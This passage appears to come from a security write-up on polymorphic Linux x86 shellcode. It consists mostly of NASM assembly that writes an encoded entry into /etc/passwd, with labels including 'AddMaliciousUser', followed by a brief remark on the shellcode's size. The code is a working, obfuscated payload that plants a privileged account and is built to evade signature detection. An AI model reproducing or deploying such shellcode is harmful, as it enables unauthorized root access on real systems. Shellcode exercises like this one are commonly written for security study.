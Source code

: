 ```nasm
    rol edx, 2

    mov cx,0x443
    dec ecx

    int 0x80

AddMaliciousUser:

    xchg ebx,eax
    xor eax, eax

    push eax
    pop edx

    push 0x20
    pop edx
    dec edx

    push 0x3
    pop eax
    inc eax

    push esi
    pop ecx

    int 0x80

CloseFileHandle:

    xor eax, eax
    mov al,0x6
    int 0x80

Exit:

    inc eax
    int 0x80

CallRunShellcode:

    call RunShellcode
    EncodedStringBytes: db 0x5e,0x06,0x17,0x16,0x5e,0x13,0x02,0x06,0x02,0x14,0x07,0x75,0x05,0x0c,0x0c,0x07,0x4b,0x59,0x53,0x4f,0x41,0x59,0x17,0x45,0x41,0x11,0x59,0x5a,0x03,0x0c,0x0c,0x01,0x4b,0x4c,0x01,0x1c,0x1f,0x4c,0x01,0x14,0x02,0x0b,0x69,0x75
```

The size of the resulting shellcode is `123 bytes`, which means `115%` compared to the original shellcode.

Since the majority of the bytes are completely different (e.g. the strings `/etc/passwd` and the new line added to the former), I think this is a good compromise.
